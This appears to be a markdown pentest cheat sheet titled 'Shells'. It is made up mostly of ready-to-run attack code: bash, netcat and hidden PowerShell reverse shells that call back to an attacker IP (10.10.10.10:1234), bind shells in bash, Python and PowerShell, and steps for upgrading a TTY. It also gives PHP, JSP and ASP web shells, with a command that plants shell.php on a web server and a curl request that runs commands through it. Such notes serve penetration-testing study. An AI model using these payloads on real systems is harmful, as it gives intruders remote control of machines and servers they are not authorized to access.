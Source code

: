 ```yaml
---
title: Shells
---
```


# Reverse Shell

> Connects back to our system and gives us control through a reverse connection.

```bash
nc -lvnp 1234  # start a listener on attacker's computer

# -l: Listen mode, to wait for a connection to connect to us.
# -n: Disable DNS resolution and only connect from/to IPs, to speed up the connection.

bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

# Bind Shell

> Waits for us to connect to it and gives us control once we do.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

```bash
# connect using netcat from attack's computer
nc 10.10.10.1 1234
```

## Upgrading TTY

Once we connect to a shell through Netcat, we can only type and backspace, no arrow key or history.

We can map our terminal TTY with the remote TTY. There are multipel ways.

### Python/stty

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# then hit `ctrl+z` to background our shell and get back on our local terminal, and type the stty command

# ^Z
stty raw -echo

fg # bring back netcat shell
# `enter` to get back to our shell or input `reset`
# now we have a fully working TTY shell
```

To fix the UI, we need to figure out a few variables. Open another terminal window.

```bash
# get the variables
echo $TERM
stty size # 67 318

# go back to netcat and correct them
export TERM=xterm-256color
stty rows 67 columns 318

```

# Web Shell

> Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.
> A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

## php

```php
<?php system($_REQUEST["cmd"]); ?>
```

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
curl http://SERVER_IP:PORT/shell.php?cmd=id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## asp

```asp
<% eval request("cmd") %>
```

